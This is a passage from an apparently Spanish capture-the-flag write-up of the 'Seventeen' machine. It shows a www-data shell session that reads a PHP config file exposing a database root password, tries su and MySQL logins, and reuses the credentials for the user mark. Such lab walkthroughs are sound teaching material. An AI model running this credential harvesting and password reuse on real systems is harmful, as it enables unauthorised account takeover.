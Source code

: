 ![imagen11](/assets/images/Seventeen/seventeen11.png)

Teniendo ejecución remota de comandos podemos entablarnos una shell y estaremos dentro. Estamos en un contenedor primero empezamos revisando los archivos de configuración, dentro nos encontramos con una credenciales para una base de datos de innodb.

```shell
www-data@1dd96ed71ae0:/var/www/html/employeemanagementsystem$ cd process/
www-data@1dd96ed71ae0:/var/www/html/employeemanagementsystem/process$ ls
addempprocess.php  applyleaveprocess.php  aprocess.php	assignp.php  dbh.php  eprocess.php  images
www-data@1dd96ed71ae0:/var/www/html/employeemanagementsystem/process$ cat dbh.php 
<?php

$servername = "localhost";
$dBUsername = "root";
$dbPassword = "2020bestyearofmylife";
$dBName = "ems";

$conn = mysqli_connect($servername, $dBUsername, $dbPassword, $dBName);

if(!$conn){
	echo "Databese Connection Failed";
}

?>
www-data@1dd96ed71ae0:/var/www/html/employeemanagementsystem/process$ su root 
Password: 
su: Authentication failure
www-data@1dd96ed71ae0:/var/www/html/employeemanagementsystem/process$ mysql -h localhost -u root -D ems -p
Enter password: 
ERROR 1524 (HY000): Plugin 'auth_socket' is not loaded
```
Al intentar entrar nos marca un error, al revisar los usuarios encontramos que mark está en ahí, al intentar conectarnos con mark en la máquina víctima nos logeamos satisfactoriamente.
